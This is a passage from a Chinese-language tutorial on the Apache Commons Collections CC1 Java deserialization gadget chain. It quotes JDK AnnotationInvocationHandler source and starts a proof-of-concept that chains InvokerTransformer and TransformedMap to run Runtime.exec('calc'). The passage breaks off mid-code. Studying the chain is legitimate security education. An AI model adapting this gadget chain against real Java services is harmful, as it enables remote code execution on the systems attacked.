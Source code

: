 ```java
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) ||
                  value instanceof ExceptionProxy)) {
                memberValue.setValue(
                    new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                        annotationType.members().get(name)));
            }
        }
    }
}
```

寻找该类中可控制的变量，根据构造方法得到 `memberValues` 也就是 `Map` 类可控：

```java
// AnnotationInvocationHandler
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
    Class<?>[] superInterfaces = type.getInterfaces();
    if (!type.isAnnotation() ||
        superInterfaces.length != 1 ||
        superInterfaces[0] != java.lang.annotation.Annotation.class)
        throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
    this.type = type;
    this.memberValues = memberValues;
}
```

由于构造方法没有写修饰符，所以是默认类型；默认类型只能在同一个类或同一个包下才可以访问到。

使用反射获取 `AnnotationInvocationHandler`，但是执行序列化和反序列化操作并没有弹出计算器；

```java
package com.mewhz.cc1;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {

        Runtime runtime = Runtime.getRuntime();
        // 获取 Runtime 对象

        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        // 创建 InvokerTransformer 作为要使用的类

        HashMap<Object, Object> map = new HashMap();
        // 创建 Map 作为要使用的类

        map.put("key", "value");
        // 赋值 方便后续遍历

        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, invokerTransformer);
        // 修饰 map，把它 value 加上 invokerTransformer 方法

```